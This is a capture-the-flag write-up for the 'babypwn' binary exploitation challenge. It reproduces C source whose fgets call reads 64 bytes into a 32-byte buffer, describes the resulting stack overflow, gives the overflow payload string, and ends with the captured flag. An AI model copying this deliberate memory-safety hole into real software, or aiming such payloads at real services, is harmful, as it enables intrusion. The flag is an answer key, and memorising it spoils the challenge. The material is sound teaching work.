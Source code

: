 # babypwn
- Tags: Binary Exploitation
- Description: Just a little baby pwn. nc babypwn.wolvctf.io 1337

# Solution
- To solve this question you need to download the following files and open the source code. You will see the following:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buff[32];
  int check;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data name;
  ignore(); /* ignore this function */

  printf("What's your name?\n");
  fgets(name.buff, 64, stdin);
  sleep(2);
  printf("%s nice to meet you!\n", name.buff);
  sleep(2);
  printf("Binary exploitation is the best!\n");
  sleep(2);
  printf("Memory unsafe languages rely on coders to not make mistakes.\n");
  sleep(2);
  printf("But I don't worry, I write perfect code :)\n");
  sleep(2);

  if (name.check == 0x41414141) {
    get_flag();
  }

  return 0;
}
```

- The struct data allocates 32 bytes for buffer and 8 bytes for the check. However, fgets reads in 64 bytes from the standard input into name.buff. Since check is after buffer on the stack, we can perform a buffer overflow by sending 32 random bytes and then 4 bytes of AAAA to pass the check in the code (A = 0x41).
- The payload is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
- After some time we will get the flag.

```
wctf{pwn_1s_th3_best_Categ0ry!}
```
